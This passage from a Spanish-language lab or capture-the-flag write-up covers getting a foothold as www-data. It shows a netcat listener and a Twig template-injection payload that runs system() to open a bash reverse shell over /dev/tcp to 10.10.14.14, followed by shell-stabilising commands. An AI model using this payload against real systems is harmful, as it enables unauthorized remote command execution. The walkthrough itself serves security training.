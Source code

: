 ![Confirmación RCE](/secciones/posts/imagenes/catch/save6.png)

### Reverse Shell

Nos ponemos en escucha:
```bash
nc -nlvp 443
```

Ejecutamos el payload:
```bash
{% raw %}{% raw %}{% raw %}{{["bash -c 'bash -i >& /dev/tcp/10.10.14.14/443 0>&1'"]|filter("system")|join(",")}}{% endraw %}{% endraw %}{% endraw %}
```

---

## Acceso inicial y configuración

Obtenemos acceso como `www-data`. Configuramos la shell:

```bash
script /dev/null -c bash
# Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
